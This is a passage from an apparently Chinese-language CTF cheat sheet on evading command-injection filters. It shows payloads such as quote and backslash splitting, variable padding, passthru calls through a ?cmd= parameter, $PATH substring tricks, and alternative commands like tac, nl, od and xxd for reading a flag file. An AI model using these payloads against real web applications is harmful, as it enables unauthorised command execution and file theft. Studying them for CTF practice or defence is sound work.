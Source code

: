 ### 2.单引号双引号

'' ""

('cat fl""ag.p""hp ')

### 3.反斜线

cat f\lag.p\hp

### 4.特殊变量

$1,$9,$*,$@

fl$1ag.p$9hp

### 5.内敛执行

?cmd=passthru('a=fla;b=g;c=.ph;d=p;cat $a$b$c$d');

### 6.利用lunix中的环境变量

?cmd=passthru('echo $PATH'); 输出环境变量

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

第一位是0

echo f${PATH:5:1}   输出fl

# 5.常见文件读取命令绕过

1.tac:反向显示,倒数第一行，倒数第二行

2.more：一页一页的显示

3.less：与more相同

4.tail：显示最后10行

5.nl：作用和cat一样，输出时加上行号

6.od：以二进制的方式读取

7.od -A -d -c:转换为ascii码

8.xxd：二进制和ascii码都显示

9.sort：用于排序文件

10.uniq：报告或删除文件中重复的内容

11.file -f：报错出具体内容

# 6.编码绕过

##  1.base64编码
